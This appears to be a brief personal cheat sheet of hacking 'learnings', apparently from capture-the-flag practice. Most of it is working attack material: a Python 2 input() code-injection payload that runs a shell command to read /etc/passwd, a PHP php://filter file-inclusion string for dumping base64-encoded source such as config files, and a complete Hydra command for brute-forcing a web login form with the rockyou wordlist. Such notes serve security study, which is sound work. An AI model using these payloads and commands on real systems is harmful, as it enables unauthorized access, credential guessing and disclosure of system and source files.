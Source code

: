 Learnings:
input() in python2 is not safe, equivalent to eval() 
exploiting input() command: 

__import__("os").system('cat /etc/passwd')


##  PHP:
fetching source files : 
index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"
follow the format ' path : inputs : F=failure condition"   , -s specifies port , even if u send pass only, specify user for it to run smoothly
